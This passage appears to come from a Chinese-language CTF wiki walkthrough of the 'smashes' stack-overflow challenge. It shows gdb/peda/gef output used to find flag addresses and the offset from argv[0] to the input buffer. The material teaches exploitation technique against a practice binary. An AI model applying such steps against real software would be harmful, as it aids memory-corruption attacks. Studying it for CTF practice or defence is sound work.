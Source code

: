 ```shell
   0x400893    jne    0x4008a9
 
   0x400895    add    rsp, 0x118
   0x40089c    pop    rbx
   0x40089d    pop    rbp
   0x40089e    ret    
 
   0x40089f    mov    edi, 1
──────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────
# name 存放地址
00:0000│ rsp  0x7fffffffdb60 ◂— 'aaaaaaaa'
01:0008│      0x7fffffffdb68 —▸ 0x7ffff7ffd900 (_rtld_global+2240) ◂— 0x0
02:0010│      0x7fffffffdb70 —▸ 0x7ffff7fdd700 ◂— 0x7ffff7fdd700
03:0018│      0x7fffffffdb78 ◂— 0x0
04:0020│      0x7fffffffdb80 —▸ 0x7ffff7ffea88 —▸ 0x7ffff7ffe9b8 —▸ 0x7ffff7ffe728 —▸ 0x7ffff7ffe700 ◂— ...
05:0028│      0x7fffffffdb88 —▸ 0x7fffffffdbc0 ◂— 0x2
06:0030│      0x7fffffffdb90 ◂— 0x380
07:0038│      0x7fffffffdb98 —▸ 0x7fffffffdbb0 ◂— 0xffffffff

```

从 18 行或 33 行可以得出 flag 存放地址为：0x600d28 。另外一个 bss 段内的 flag 地址使用 peda find 功能查找，两个 flag 地址分别为： 0x600d28 、0x400d28。

这里需要减去偏移（被 name 覆盖了 0x7 ）才能得到完整 flag ，所以两个 flag 地址为：0x600d21 、0x400d21

```shell
gdb-peda$ find Serv
Searching for 'Serv' in: None ranges
Found 6 results, display max 6 items:
readme.bin : 0x400d28 ("ServerHasTheFlagHere...")
readme.bin : 0x600d28 ("ServerHasTheFlagHere...")
      libc : 0x7ffff7b97641 ("Servname not supported for ai_socktype")
      libc : 0x7ffff7b9924c ("Server rejected credential")
      libc : 0x7ffff7b9927f ("Server rejected verifier")
      libc : 0x7ffff7b994af ("Server can't decode arguments")

```

#### 确定偏移

下面，我们确定 argv[0] 距离读取的字符串的偏移。

首先下断点在 main 函数入口处，如下

```shell
gef➤  b *0x00000000004006D0
Breakpoint 1 at 0x4006d0
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes 

Breakpoint 1, 0x00000000004006d0 in ?? ()
 code:i386:x86-64 ]────
     0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
     0x4006c6 <_IO_gets@plt+6> push   0x9
     0x4006cb <_IO_gets@plt+11> jmp    0x400620
 →   0x4006d0                  sub    rsp, 0x8
     0x4006d4                  mov    rdi, QWORD PTR [rip+0x200665]        # 0x600d40 <stdout>
     0x4006db                  xor    esi, esi
     0x4006dd                  call   0x400660 <setbuf@plt>
──────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb78', 'l8']
8
0x00007fffffffdb78│+0x00: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax    ← $rsp
```